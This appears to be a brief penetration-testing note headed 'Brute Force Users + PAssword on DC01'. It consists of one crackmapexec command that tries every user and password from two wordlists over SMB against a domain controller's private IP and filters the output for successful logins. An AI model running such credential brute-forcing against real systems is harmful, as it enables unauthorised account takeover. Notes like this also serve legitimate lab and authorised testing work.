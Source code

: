 # Brute Force Users + PAssword on DC01

```shell
crackmapexec smb 192.168.100.50 -u users.txt -p pass.txt --continue-on-success | grep "[+]"
```